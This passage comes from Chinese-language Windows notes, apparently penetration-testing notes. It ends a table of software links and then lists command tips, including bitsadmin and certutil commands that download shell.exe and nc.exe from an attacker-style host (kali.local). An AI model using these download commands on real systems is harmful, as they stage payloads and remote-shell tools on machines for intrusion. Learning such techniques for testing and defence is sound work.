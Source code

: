 |                 [Typora](https://typora.io/)                 |
|          [v2rayN](https://github.com/2dust/v2rayN)           |
|      [VeraCrypt](https://www.veracrypt.fr/en/Home.html)      |
|                 [Vim](https://www.vim.org/)                  |
|     [Visual Studio Code](https://code.visualstudio.com/)     |
| [VMware Workstation Pro](https://softwareupdate.vmware.com/cds/vmw-desktop/ws/) |
|   [WindowsTerminal](https://github.com/microsoft/terminal)   |
|               [WeChat](https://weixin.qq.com/)               |
|                 [Xmind](https://xmind.app/)                  |
|                 [Yakit](https://yaklang.io/)                 |

## 6. use

### 6.1 查看帮助

```cmd
C:\Users\Administrator> [command] /?
```

### 6.2 历史命令

查看历史命令

```cmd
C:\Users\Administrator> doskey /history
```

### 6.3 远程下载

**bitsadmin**

使用 bitsadmin 下载文件

```cmd
C:\Users\Administrator> bitsadmin /transfer n http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

```cmd
C:\Users\Administrator> bitsadmin /rawreturn /transfer getfile http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

**certutil**

使用 certutil 下载文件

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe C:\Users\Administrator\nc.exe
```
